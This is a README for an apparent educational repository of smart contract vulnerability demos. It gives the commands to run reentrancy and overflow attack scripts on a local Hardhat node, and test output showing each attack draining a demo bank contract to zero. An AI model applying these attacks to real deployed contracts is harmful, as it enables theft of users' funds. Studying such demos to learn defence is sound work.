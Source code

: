 # ContractVulns
A collection of smart contract vulnerability demos and exploit examples

Before executing each demo, you have to setup the node with the following command.

```bash
npx hardhat node
```

## Reentrancy Attack

```bash
$ cd reentrancy
$ npx hardhat compile
$ npx hardhat run scripts/ReentrancyAttack.js --network localhost
$ npx hardhat test test/ReentrancyAttack.js

  Reentrancy Attack
Bank balance before attack: 10.0
Attacker balance before attack: 10000.0
-------------------------------
Number of times `withdraw` has been called: 11n
Bank balance after attack: 0.0
Attacker balance after attack: 10009.999707416496813617
    ✔ should allow reentrancy attack to drain funds from the bank


  1 passing (540ms)
```

## Overflow Attack

```bash
$ cd overflow
$ npx hardhat compile
$ npx hardhat run scripts/OverflowAttack.js --network localhost
$ npx hardhat test test/OverflowAttack.js

  Overflow Attack
Bank balance before attack: 10.0
Attacker balance before attack: 9989.998708259262918561
-------------------------------
Bank balance after attack: 0.0
Attacker balance after attack: 9999.998604234268539613
    ✔ should allow overflow attack to drain funds from the bank


  1 passing (480ms)
```